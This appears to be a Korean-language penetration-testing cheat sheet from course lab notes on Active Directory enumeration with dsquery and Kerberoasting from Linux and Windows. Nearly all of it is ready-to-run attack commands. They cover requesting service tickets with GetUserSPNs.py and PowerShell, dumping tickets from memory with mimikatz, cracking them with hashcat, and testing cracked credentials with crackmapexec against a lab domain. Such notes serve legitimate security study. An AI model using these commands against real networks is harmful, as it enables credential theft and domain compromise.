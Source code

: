 ```
### Dsquery 명령 (Active Directory 개체 찾기)
```dsquery user```<br/>
```dsquery computer```<br/>
```dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"```<br/>

### Dsquery 명령 (PASSWD_NOTREQD 플래그 사용자)
```dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl```

### Dsquery 명령 (모든 Domain Controllers 검색, 최대 5개 결과)
```dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName```

<br/><br/>
## 11. Kerberoasting - from Linux

### GetUserSPNs.py로 SPN Accounts 나열
```GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend```

### 모든 TGS Tickets 요청
```GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request```

### 단일 TGS ticket 요청
```GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev```

### TGS Ticket을 출력 파일에 저장
```GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs```

### Hashcat으로 오프라인 Ticket Cracking
```hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt```

### 도메인 컨트롤러에 대한 인증 테스트
```sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!```

<br/><br/>
## 12. Kerberoasting - from Windows

### 1) 수동 방법

### setspn.exe로 SPN 열거
```setspn.exe -Q */*```

### 단일 사용자 타겟팅
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

### setspn.exe를 사용하여 All Tickets 검색
```setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }```

### Mimikatz를 사용하여 메모리에서 티켓 추출
```
mimikatz # base64 /out:true    # 이 명령 생략하면 kirbi 파일 바로 저장 
mimikatz # kerberos::list /export
```

### Cracking을 위한 Base64 Blob 정리 (줄바꿈, 공백 제거)
```echo "<base64 blob>" |  tr -d \\n```

### base64 출력을 .kirbi 파일로 변환
```cat encoded_file | base64 -d > sqldev.kirbi```

### kirbi2john.py를 사용하여 Kerberos Ticket 추출
```python2.7 kirbi2john.py sqldev.kirbi```

### Hashcat을 사용하기 위해 파일 수정
```sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat```
```